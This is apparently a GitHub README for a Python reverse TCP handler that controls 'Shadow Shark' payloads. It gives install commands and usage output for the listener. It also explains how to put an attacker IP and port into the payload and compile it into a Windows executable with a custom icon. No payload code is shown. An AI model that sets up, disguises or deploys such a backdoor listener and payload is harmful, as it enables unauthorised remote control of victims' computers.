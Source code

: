 # Shadow Shark Listener
A full fledged reverse TCP handler written in pure python3 that is used to interact with Shadow Shark payloads.

## Installation
### Debian
```
$ sudo apt-get install python3 git
$ git clone https://github.com/MrSharkSpamBot/Shadow-Shark-Listener.git
```
### Arch
```
$ sudo pacman -S python git
$ git clone https://github.com/MrSharkSpamBot/Shadow-Shark-Listener.git
```

## Usage
### ShadowSharkListener.py
```
$ python3 ShadowSharkListener.py --help
	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNNNNmdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddhysMMMM-.`....``               ```.-/oys:
	                                     `mMMMMMMM`````````````  :hNM+
	                                      -mMMMMMM.                .+s.
	                                       .yMMMMMh`
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
usage: ShadowSharkListener.py [-h] --lh LHOST --lp LPORT

This tool is a full fledged reverse TCP handler used to interact with Shadow
Shark payloads. Created by Mr. Shark Spam Bot.

optional arguments:
  -h, --help            show this help message and exit
  --lh LHOST, --lhost LHOST
                        Your IP address.
  --lp LPORT, --lport LPORT
                        The port to listen for connections on.
$ python3 ShadowSharkListener.py --lhost 0.0.0.0 --lport 8080
	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNNNNmdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddhysMMMM-.`....``               ```.-/oys:
	                                     `mMMMMMMM`````````````  :hNM+
	                                      -mMMMMMM.                .+s.
	                                       .yMMMMMh`
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
[*] A reverse TCP handler on 0.0.0.0:8080 has successfully started...
```
### ShadowSharkPayload.py
This payload can run on any operating system. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### ShadowSharkPayloadCompile.py
This compilation script can only be run on a windows machine or by using wine. To configure the compilation script go to line 14 and replace ICON with the icon file you want your exe file to have to have. To do this make sure that the ShadowSharkPayload.py script, your icon file, and the ShadowSharkPayloadCompile.py script are in the same folder and that py2exe is installed.
```
# First install python3 on you windows machine or wine enviornment.
$ pip install py2exe
$ python ShadowSharkPayloadCompile.py py2exe
```
